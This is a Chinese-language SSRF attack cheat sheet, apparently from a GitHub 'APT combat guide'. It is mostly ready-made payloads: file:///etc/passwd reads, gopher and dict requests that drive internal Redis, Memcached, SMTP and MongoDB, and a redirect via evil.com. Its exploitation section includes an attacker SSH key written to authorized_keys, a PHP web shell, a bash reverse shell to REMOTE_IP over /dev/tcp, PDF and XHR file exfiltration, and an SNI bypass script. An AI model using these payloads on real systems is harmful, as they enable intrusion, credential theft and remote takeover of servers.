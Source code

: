 # SSRF

PHP函数：

+ file_get_contents

+ fsockopen

+ curl_exec

+ fopen

+ mdf_file

## 协议

(1)HTTP/HTTPS

```html
ssrf.php?page=http://127.0.0.1:80
ssrf.php?page=http://127.0.0.1:8080
ssrf.php?page=https://127.0.0.1
```

(2)File

```html
ssrf.php?page=file:///etc/passwd
ssrf.php?page=file://\/\/etc/passwd
```

(3)Dict

```html
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?page=dict://服务器地址:11111/
```

(4)文件传输协议

```html
ftp://user:password@目标站点/  //FTP协议
tftp://目标站点/../file.txt //TFTP协议
sftp://目标站点:11111/  //SFTP协议
```

(5)LDAP

```html
ssrf.php?page=ldap://localhost:11211/%0astats%0aquit
```

(6)SMB

```html
ssrf.php?page=smb://server/share
```

(7)Redis/Memcached

Redis
```html
/proxy?url=redis://Redis服务器地址:6379/set%20mykey%20myvalue
```

Memcached
```html
/proxy?url=memcached://Memcached服务器地址:11211/stats
```

```html
/proxy?url=memcached://Memcached服务器地址:11211/set%20session_user_id%200%20200%2010
//用值0覆盖Memcached中应用程序的会话密钥（session_user_id）
/proxy?url=memcached://Memcached服务器地址:11211/get%20session_user_id
//获取密钥session_user_id的值，用于验证先前的设置命令是否成功
```

(8)Gopher

格式
```html
gopher://host:port/selector
```

与SMTP通信发送电子邮件
```html
GET /ssrf?url=gopher://内部SMTP服务器地址:25/_MAIL%20FROM%3A%3Csnowwolf%40test.com%3E%0D%0ARCP%54%20TO%3A%3Cuser%40example.com%3E%0D%0ADATA%0D%0ASubject%3A%20SSRF%20Test%0D%0A%0D%0AThis%20is%20an%20email%20sent%20via%20SSRF%20exploit.%0D%0A.%0D%0AQUIT%0D%0A HTTP/1.1
```

SMTP页面
```html
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@ghostwolflab.com>',
                'RCPT To: <admin@test.com>',
                'DATA',
                'Subject: @security!',
                'Hello, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

创建MongoDB用户
```html
gopher://内部MongoDB服务器地址:27017/_%a0%00%00%00%00%00%00%00%00%00%00%00%dd%07%00%00%00%00%00%00%00%8b%00%00%00%02insert%00%06%00%00%00users%00%02$db%00%0a%00%00%00percetron%00%04documents%00V%00%00%00%030%00N%00%00%00%02username%00%06%00%00%00admin%00%02password%00%09%00%00%00admin123%00%02permission%00%0e%00%00%00administrator%00%00%00%00
```

HTTP
```html
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

回连1337端口
```html
创建evil.com/redirect.php页面
<?php
header("Location: gopher://攻击者主机:1337/_SSRF%0ATest!");
?>

访问地址
https://目标WEB应用程序/?q=http://evil.com/redirect.php
```


(9)Netdoc

```html
ssrf.php?url=netdoc:///etc/passwd
```

## 利用

(1)WSGI

易受攻击的WSGI应用程序
```html
def application(environ, start_response):
//环境变量包含SSRF攻击期间服务器传递的信息
    url = environ.get('HTTP_X_TARGET_URL')
    if url and url.startswith("http"):
    //验证不足，还应该考虑其它请求协议和内部资源的访问
        content = urlopen(url).read()
        //如果url来自不受信任的来源，则可能出现SSRF漏洞
```

payload
```html
gopher://WSGI服务器地址:8000/_%00%1A%00%00%0A%00WSGI_FILE%0C%00/tmp/test.py
```

脚本

[WSGI](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/SSRF/WSGI.py)

| 标头      |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| 变量     (UWSGI_FILE) |           |    |            |   |
|-----------------------|-----------|----|------------|---|
| key length            | (2 bytes) | 10 | (%0A%00)   |   |
| key data              | (m bytes) |    | UWSGI_FILE |   |
| value length          | (2 bytes) | 12 | (%0C%00)   |   |
| value data            | (n bytes) |    | /tmp/test.py   |   |


(2)Redis

SSH覆盖执行系统命令
```html
/proxy?url=redis://Redis服务器地址:6379/config%20set%20dir%20/var/lib/redis/.ssh/
# 将Redis保存数据的目录更改为Redeis进程运行时的用户目录.ssh
/proxy?url=redis:// Redis服务器地址:6379/config%20set%20dbfilename%20authorized_keys
# 将数据库文件名更改为authorized_keys，这是SSH服务器再确定SSH访问的授权公钥时查找的文件
/proxy?url=redis:// Redis服务器地址:6379/set%20mykey%20%22ssh-rsa%20AAAAB3Nza...user@attacker.com%22
# 将mykey密钥的值设置为攻击者的公共SSH密钥
/proxy?url=redis://Redis服务器地址:6379/save
# 指示Redis保存数据，这回将攻击者的公钥写入.ssh/authorized_keys文件，接下来便可以通过SSH连接Redis的服务器并执行系统命令
```

获取一个webshell
```html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE
```

获取一个PHP回连的webshell
```html
url=gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
url=gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
url=gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
url=gopher://127.0.0.1:6379/_save
```

(3)PDF

源文件
```pdf
%PDF-1.5
1 0 obj
<<
  /Type /XObject
  /Subtype /Image
  /Width 500
  /Height 500
  /Filter /DCTDecode
  /ColorSpace /DeviceRGB
  /Length 12345
  /F (http://攻击者主机地址/)
>>
stream
...二进制PDF文件数据...
endstream
endobj
```

```html
<link rel=attachment href="file:///root/secret.txt">
```

```html
<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```

(4)SNI

SNI利用OpenSSL
```python
from OpenSSL import SSL
import socket

//建立TCP连接
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('外部允许的服务器地址', 443))

//创建SSL上下文
ctx = SSL.Context(SSL.SSLv23_METHOD)  //使用适当方法
ssl_sock = SSL.Connection(ctx, sock)

//设置SNI为内部目标地址
ssl_sock.set_tlsext_host_name(b'内部目标地址')

执行TLS握手
ssl_sock.do_handshake()

//通过SSL连接发送HTTP请求
ssl_sock.sendall(b"GET / HTTP/1.1\r\nHost: 外部允许的服务器地址\r\n\r\n")

//读取响应
response = ssl_sock.recv(4096)
print(response)

//取消连接
ssl_sock.shutdown()
ssl_sock.close()
```

命令
```bash
openssl s_client -connect 目标地址:443 -servername "内部目标地址" -crlf
```
